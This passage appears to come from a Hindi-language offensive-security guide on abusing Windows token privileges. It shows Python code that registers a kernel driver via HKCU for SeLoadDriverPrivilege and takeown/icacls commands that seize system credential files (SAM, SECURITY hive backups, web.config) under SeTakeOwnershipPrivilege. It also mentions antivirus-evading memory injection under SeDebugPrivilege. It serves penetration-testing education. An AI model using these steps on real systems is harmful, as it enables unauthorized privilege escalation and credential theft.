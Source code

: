 - `ImagePath`, जो निष्पादित होने वाले बाइनरी का पथ है
- `Type`, जिसका मान `SERVICE_KERNEL_DRIVER` (`0x00000001`) है।

**अनुसरण करने के चरण:**

1. प्रतिबंधित लिखने की पहुँच के कारण `HKLM` के बजाय `HKCU` तक पहुँचें।
2. `HKCU` के भीतर `\Registry\User\<RID>\System\CurrentControlSet\Services\DriverName` पथ बनाएं, जहाँ `<RID>` वर्तमान उपयोगकर्ता का सापेक्ष पहचानकर्ता है।
3. `ImagePath` को बाइनरी के निष्पादन पथ पर सेट करें।
4. `Type` को `SERVICE_KERNEL_DRIVER` (`0x00000001`) के रूप में असाइन करें।
```python
# Example Python code to set the registry values
import winreg as reg

# Define the path and values
path = r'Software\YourPath\System\CurrentControlSet\Services\DriverName' # Adjust 'YourPath' as needed
key = reg.OpenKey(reg.HKEY_CURRENT_USER, path, 0, reg.KEY_WRITE)
reg.SetValueEx(key, "ImagePath", 0, reg.REG_SZ, "path_to_binary")
reg.SetValueEx(key, "Type", 0, reg.REG_DWORD, 0x00000001)
reg.CloseKey(key)
```
अधिक तरीके इस विशेषाधिकार का दुरुपयोग करने के लिए [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege)

### SeTakeOwnershipPrivilege

यह **SeRestorePrivilege** के समान है। इसका मुख्य कार्य एक प्रक्रिया को **एक वस्तु का स्वामित्व ग्रहण करने** की अनुमति देना है, जो WRITE_OWNER पहुँच अधिकारों के प्रावधान के माध्यम से स्पष्ट विवेकाधीन पहुँच की आवश्यकता को दरकिनार करता है। प्रक्रिया में पहले लिखने के उद्देश्यों के लिए इच्छित रजिस्ट्री कुंजी का स्वामित्व सुरक्षित करना शामिल है, फिर लिखने के संचालन को सक्षम करने के लिए DACL को बदलना शामिल है।
```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```
### SeDebugPrivilege

यह विशेषाधिकार **अन्य प्रक्रियाओं को डिबग करने** की अनुमति देता है, जिसमें मेमोरी में पढ़ने और लिखने की क्षमता शामिल है। मेमोरी इंजेक्शन के लिए विभिन्न रणनीतियाँ, जो अधिकांश एंटीवायरस और होस्ट घुसपैठ रोकथाम समाधानों को चकमा देने में सक्षम हैं, इस विशेषाधिकार के साथ लागू की जा सकती हैं।
